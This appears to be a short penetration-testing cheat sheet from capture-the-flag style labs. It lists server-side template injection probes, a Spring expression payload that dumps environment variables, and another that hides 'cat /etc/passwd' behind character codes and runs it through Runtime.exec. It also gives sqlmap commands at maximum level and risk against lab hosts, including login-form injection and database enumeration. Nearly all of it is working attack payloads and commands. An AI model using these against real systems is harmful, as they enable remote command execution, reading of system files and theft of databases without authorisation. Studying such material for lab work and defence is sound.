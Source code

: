
### SSTI 

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

> {T(java.lang.System).getenv()}

Get /etc/passwd
> ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}

### sqlmap

--level=5 highest level
--risk=3 highest level 
--batch - run without asking any questions

> sqlmap -u http://10.10.11.170:8080/ --batch

> sqlmap -u http://10.10.11.170:8080/stats?author=woodenk --level=5 --risk=3 --batch

Post enumeration through form fields
> sqlmap -u http://shoppy.htb/login --data="username=field1&password=field2" --level=5 --risk=3 --batch --ignore-code 401 



Enumerate databases
> sqlmap -u http://10.10.11.170:8080 --level=5 --risk=3 --batch --dbs
